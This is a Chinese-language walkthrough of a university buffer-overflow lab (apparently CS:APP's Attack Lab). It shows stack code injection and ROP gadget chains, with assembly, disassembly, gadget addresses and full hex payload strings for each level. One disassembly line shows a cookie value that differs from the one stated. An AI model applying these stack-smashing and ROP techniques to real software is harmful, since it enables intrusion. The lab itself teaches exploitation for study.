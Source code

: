 # Attack

Level 1

第一节段是简单的栈溢出，我们需要将构造好的函数写入函数正常的返回地址。

[![cTN5rj.png](https://z3.ax1x.com/2021/04/19/cTN5rj.png)](https://imgtu.com/i/cTN5rj)

因为栈开辟了40个字节大小的空间，所以需要填充40个字节的字符，然后输入需要

返回的地址，这里我们需要跳转的touch1，所以返回地址是4017c0，我们在attack1.txt

里面写入构造的payload。

[![cTNLGT.png](https://z3.ax1x.com/2021/04/19/cTNLGT.png)](https://imgtu.com/i/cTNLGT)

运行，攻击成功。

[![cTUyy4.png](https://z3.ax1x.com/2021/04/19/cTUyy4.png)](https://imgtu.com/i/cTUyy4)

Level 2
[![cTro59.png](https://z3.ax1x.com/2021/04/19/cTro59.png)](https://imgtu.com/i/cTro59)

查看touch2程序的逻辑，这段程序是验证传进来的参数是否和cookie中的值相等，cookie=0x59b997fa。思路是将返回地址设置为注入代码的地址，因为这次是直接在栈顶注入，所以返回地址为%rsp地址，将cookie的值传给第一个参数，调用touch2但又不能使用call和jmp等指令，所以要先吧touch2的地址压入栈再用ret从栈上弹出返回地址。所以注入的代码为

```
movq    $0x59b997fa, %rdi
pushq   0x4017ec
ret
```

需要将上述的汇编代码转化为计算机可以执行的指令序列并执行下列命令：

```
linux> gcc -c inject.s
linux> objdump -d inject.o

Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 69 59    mov    $0x596997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq

```

得到指令序列为48 c7 c7 fa 97 69 59 68 ec 17 40 00 c3

[![cjvhfP.png](https://z3.ax1x.com/2021/04/24/cjvhfP.png)](https://imgtu.com/i/cjvhfP)

获取到了%rsp的地址构造字符串。

```
48 c7 c7 fa 97 b9 59 68 ec 17 
40 00 c3 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 
```



Level3

这一阶段需要传递一段字符串作为参数向输入的字符串中注入一段代码。在正常返回的时候跳转到touch3函数。

[![https://ae01.alicdn.com/kf/U6e430299b0954ad6a605c382283e4061x.jpg](https://ae01.alicdn.com/kf/U6e430299b0954ad6a605c382283e4061x.jpg)](https://ae01.alicdn.com/kf/U6e430299b0954ad6a605c382283e4061x.jpg)

程序在touch3函数中调用了hexmatch函数，这个函数的功能是匹配cookie和传进来的字符是否匹配，已经给出了cookie是0x59b997fa，所以应该传入的参数是“59b997fa”。在调用hexmatch函数的时候，如果cookie存在buffer里面可能会被覆盖，所以cookie要放到test栈帧中。我们要注入的代码是。

```
movq    $0x5561dca8, %rdi
pushq   0x4018fa
ret
```

经过转换变位指令序列48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3。cookie的16进制数为35 39 62 39 39 37 66 61 00。构造字符序列为

```
48 c7 c7 a8 dc 61 55 68 fa 18 
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 35 39
62 39 39 37 66 61 00
```

## ROP

Level2

为了保护程序，现代编译器和操作系统实现了许多机制，来避免缓冲区溢出攻击，限制入侵者通过缓冲区溢出攻击获得系统控制的方式。

1、栈随机化。栈随机化使得栈的位置在程序每次运行时都会有变化，增大利用难度。

2、栈破坏检测。在栈帧中的缓冲区和栈状态之间存储一个特殊的金丝雀值，在恢复寄存器状态和从函数返回之前，程序检查这个金丝雀值是否被该函数的某个操作或者该函数调用的某个操作改变了，如果改变则该程序异常终止。

3、限制可执行代码区域。限制攻击者向系统中插入可执行代码的能力，在rop攻击中，因为栈上限制了不可插入可执行代码，所以我们需要在已经存在的程序中找到特定的指令序列，并且这些指令是以ret结尾，这一段指令序列，我们称之为gadget。

在这一阶段中，我们要通过rop攻击重复第二阶段的代码注入攻击，因为无法将指令序列放入栈中，我们需要到现有的程序中找到我们需要的指令序列。

```
popq %rax
movq %rax, %rdi
```

我们需要这个代码序列，因为popq %rax的指令节为:58,所以我们找到这个函数。

```xml
00000000004019a7 <addval_219>:
  4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
  4019ad: c3 
```

从中可以知道指令的地址为0x4019ab。movq %rax，%rdi的指令字节为48 89 c7，所以我们找到了如下函数

```
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3  
```

从中可以得到movq %rax,%rdi指令的地址为0x4019a2。我们构造的字符串为

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```



Level 3

本阶段需要把字符串的起始地址传到%rdi,然后调用touch3函数。因为每次栈的位置是随机的，所以无法直接用地址来索引字符串的起始地址，需要用栈顶地址+偏移量来索引字符串的起始地址。

首先获取%rsp地址,movq %rsp,%rax的指令字节为:48 89 e0,所以这一步的地址为:0x401a06

```
0000000000401a03 <addval_190>:
  401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
  401a09: c3  
```

第二步需要将%rax的内容传送到%rdi

```
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
```

movq %rax,%rdi的指令字节为:48 89 c7，所以这一步的地址为:0x4019a2

第三步将偏移量的内容弹出到%rax

```
00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3   
```

popq %rax的指令字节为:58,其中90为nop指令，所以这一步地址为:0x4019cc

第四步,将%eax的内容传送到%edx

```
00000000004019db <getval_481>:
  4019db: b8 5c 89 c2 90        mov    $0x90c2895c,%eax
  4019e0: c3    
```

movl %eax,%edx的指令字节为:89 c2,所以这一步的地址为:0x4019dd

第五步，将%edx的内容传送到%ecx

```
0000000000401a6e <setval_167>:
  401a6e: c7 07 89 d1 91 c3     movl   $0xc391d189,(%rdi)
  401a74: c3  
```

movl %edx,%ecx的指令字节为:89 d1,所以这一步的地址为0x401a70

第六步，将%ecx的内容传送到%esi

```
0000000000401a11 <addval_436>:
  401a11: 8d 87 89 ce 90 90     lea    -0x6f6f3177(%rdi),%eax
  401a17: c3                    retq 
```

movl %ecx,%esi的指令字节为：89 ce,所以这一步地址为:0x401a13

第七步，将栈顶+偏移量得到字符串的首地址传送到%rax

```
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3                    retq 
```

这一步地址为0x4019d6

第八步将字符串首地址%rax传送到%rdi

```
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
```

movq %rax,%rdi的指令字节为：48 89 c7,所以这一步的地址为0x4019a2。

构造指令序列为

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61 00
```

